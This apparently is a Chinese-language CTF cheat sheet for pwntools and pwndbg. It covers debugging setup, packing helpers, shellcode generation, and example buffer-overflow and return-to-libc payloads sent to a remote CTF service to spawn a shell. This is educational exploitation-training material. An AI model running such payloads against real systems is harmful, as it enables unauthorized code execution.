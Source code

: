 pwndbg

## pwntools

[pwntools 命令行工具](https://zero-mk.github.io/2019/01/01/pwntools-Command%20Line%20Tools/)
[Link](https://www.jianshu.com/p/6e528b33e37a)
[Link](https://docs.pwntools.com/en/stable/timeout.html)

- [ancypwn 环境切换](#ancypwn) [网盘heap3_double-free.rar pwntools heap功能不正常 查看 pwn_2023_07_04_day2讲义.pdf](#ancypwn)


```py
# timeout
context.timeout = 30
```

### 本地启动

nc -vc ./fmt -kl 3333

然后其他机器就可以 nc ip port 连接了

### 怎样调试/配置

方法 1

```python
context(arch='amd64', os='linux', log_level='debug')
# arch影响 flat, pack, unpack 使用4Bytes还是8Bytes
sh = process('./pwn')
# gdb.attach(sh, 'b *0x1234')
gdb.attach(sh)
```

方法 2

```python
sh = process('./pwn')
raw_input('debug')
这时看pid，比如是 6533, 新建终端，
$gdb
$attach 6533
```

### 指令介绍

p32、p64 是 64/32 位代码 打包为二进制，u32、u64 是解包为二进制

**flat 模块能将 pattern 字符串和地址结合并且转为字节模式**

```python
payload = flat(cyclic(32), 0x804a060)
io.sendlijneafter(':', flat['a'*0x8c, e.plt['system'], 0, 0x804a024, 0, 0])
```

symbols

    ELF('./level3').symbols['main']
    ELF('./level3').sym['main']

gdb.attach(sh) # gdb 附加到调试

### 示例

```python
from pwn import *
context(log_level = 'debug', arch = 'i386', os = 'linux') # 能显示调试信息
#io = process('./level1')
io = remote('pwn2.jarvisoj.com', 9877) # 远程连接
text = io.recvline()[14: -2] # 获取返回值
# recvline(keepends=True) : 接收一行，keepends为是否保留行尾的\n
shellcode = asm(shellcraft.sh()) # pwntools生成的 sh 的shellcode
p64(0x400000) # 地址转 64 位二进制
p32(0x400000) # 地址转 32 位二进制
payload = shellcode.decode('latin') + '\x90' * (0x88 + 0x4 - len(shellcode)) + p32(buf_addr).decode('latin')
io.send(payload)
io.interactive()
io.close()
```

从 write 返回 main

```python
#char[88] ebp  write函数地址  write函数返回地址(返回到main函数)  write函数参数一(1)  write函数参数二(write_got地址)  write函数参数三(写4字节)
payload = flat('A'*0x88, p32(0xdeadbeef), p32(write_plt), p32(main_addr), p32(1), p32(write_got), p32(0xdeadbeef))
# payload = flat('a'*0x88, p64(syscall), p64(syscall)) # buuctf这题需要2个，不明白。好像是栈没对齐的原因
```

#### 输入字符

```python
io.sendlineafter('name', payload)

io.recvuntil("your name")
io.sendline("/bin/sh")

print(io.recvall())
```

#### 汇编转二进制、数字、字符转换等

```python
# python3
from pwn import *
print(asm('XCHG EAX,ESP\nRET\nMOV ECX,[EAX]\nMOV [EDX],ECX\nPOP EBX\nRET'.lower()).hex())
```

p32 - Packs an 32-bit integer

```python
>>> p32(0x8040000)
b'\x00\x00\x04\x08'
```

u32 使用 - Unpacks an 64-bit integer

```python
>>> u32('\x00\x00\x04\x08')
134479872
>>> hex(u32('\x00\x00\x04\x08'))
'0x8040000'
```

#### runshellcode

```python
from pwn import *
run_shellcode(a.encode())
```

### 相关知识

通过 ldd 查找 libc 共享库， 这里 python 需要用到 c 语言的标准动态库, srand 用到 libc.so.6

```sh
kali@kali:/mnt/hgfs/vmware$ ldd guess_num
        linux-vdso.so.1 (0x00007ffec67fa000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007faeab4e3000)
        /lib64/ld-linux-x86-64.so.2 (0x00007faeab8c1000)
```

## ancypwn

https://github.com/Escapingbug/ancypwn

```sh
ancypwn run --priv true --tag 16.04
ancypwn end
```

没有切debug导致pwntools heap功能不正常

```sh
sudo rm -rf /usr/lib/debug
sudo cp -r /home/hacker/glibc-all-in-one-master/libs/2.23-0ubuntu11.3_amd64/.debug/ /usr/lib/debug
```
# FAQ

1. pwndbg Debugger always exiting
   [Link](https://github.com/Gallopsled/pwntools/issues/1677) [Solution](https://github.com/Gallopsled/pwntools/commit/7ececc6bce24ccf3fe9c19c12b225e5e85d56afc)

# Article

[[分享] pwndbg+tmux 真乃天作之合 ](https://bbs.kanxue.com/thread-276203.htm)
[baidu:IDA pwntools](https://www.baidu.com/s?wd=pwntools+ida+%E8%B0%83%E8%AF%95)
[IDA 配合 pwntool 调试环境](https://zhuanlan.zhihu.com/p/347107006)
